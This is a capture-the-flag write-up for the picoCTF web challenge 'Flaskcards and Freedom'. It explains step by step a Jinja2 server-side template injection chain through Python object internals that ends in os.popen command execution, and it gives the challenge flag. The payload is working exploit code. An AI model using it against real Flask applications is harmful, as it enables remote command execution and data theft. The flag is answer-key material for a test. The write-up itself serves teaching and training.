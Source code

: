 # Flaskcards and Freedom - Web

From the hints on this challenge, we need to get RCE and we can get that by template injection.

First we run

```
g.__class__
```
This returns a class object:
> <class 'flask.ctx._AppCtxGlobals'>

Then we do:
```
g.__class__.__mro__
```
This returns a list of classes that ```g.__class__``` is inheriting from(mro stands for Method Resolution Order) 
> (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Then we need the second index there which will be [1]. After that we do:

```
g.__class__.__mro__[1].__subclasses__()
```
which will return a list of classes that inherit from ```<class 'object'>```
>[<class 'itertools.compress'>, <class 'formatteriterator'>, <class 'logging.Filter'>, ...] 

Then we choose for example index 14 which is a dummy class (just a normal class we can use, we could have used most other classes). By running this command:

```
g.__class__.__mro__[1].__subclasses__()[14]
```
We get
><class 'tarfile.TarIter'>

Then we run:
```
g.__class__.__mro__[1].__subclasses__()[14].__init__
```
which will return a function that creates a new tarfile object
><function TarIter.__init__ at 0x7fd68213fb70>

After that, we run this command:

```
g.__class__.__mro__[1].__subclasses__()[14].__init__.__globals__
```
which will return a list of all globals functions available in the user's scope
> {'TarFile': <class 'tarfile.TarFile'>, 'open': <bound method TarFile.open of <class 'tarfile.TarFile'>>, ...

Then we need to choose the sys module from the result above because the sys module contains the os module which we can use to open a file in Python. Once we have chosen the os module, we can use the popen and read function to read the flag file. The final command looks like this:
```
{{ g.__class__.__mro__[1].__subclasses__()[14].__init__.__globals__['sys'].modules['os'].popen("cat flag").read() }}
```

This gives us the flag: picoCTF{R_C_E_wont_let_me_be_04eedee8}
